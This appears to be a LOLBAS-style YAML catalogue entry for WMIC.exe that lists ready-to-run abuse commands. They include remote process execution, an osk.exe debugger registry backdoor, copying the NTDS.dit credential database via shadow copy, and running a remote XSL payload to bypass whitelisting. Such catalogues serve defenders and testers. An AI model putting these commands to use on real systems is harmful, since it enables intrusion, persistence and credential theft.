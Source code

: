 ---
Name: WMIC.exe
Description: Reconnaissance, Execute, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: wmic.exe process call create calc
    Description: ''
  - Command: wmic.exe process call create "c:\ads\file.txt:program.exe"
    Description: ''
  - Command: wmic.exe useraccount get /ALL
    Description: ''
  - Command: wmic.exe process get caption,executablepath,commandline
    Description: ''
  - Command: wmic.exe qfe get description,installedOn /format:csv
    Description: ''
  - Command: wmic.exe /node:"192.168.0.1" service where (caption like "%sql server (%")
    Description: ''
  - Command: get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"
    Description: ''
  - Command: wmic.exe /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
    Description: ''
  - Command: wmic.exe /node:"192.168.0.1" process call create "evil.exe"
    Description: ''
  - Command: wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"
    Description: ''
  - Command: wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
    Description: ''
  - Command: wmic.exe process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
    Description: ''
  - Command: wmic.exe os get /format:"MYXSLFILE.xsl"
    Description: ''
  - Command: wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
    Description: ''

Full Path:
  - c:\windows\system32\wbem\wmic.exe
  - c:\windows\sysWOW64\wbem\wmic.exe
Code Sample: []
Detection: []
Resources:
  - https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  - https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  - https://twitter.com/subTee/status/986234811944648707
Notes: Thanks to Casey Smith - @subtee
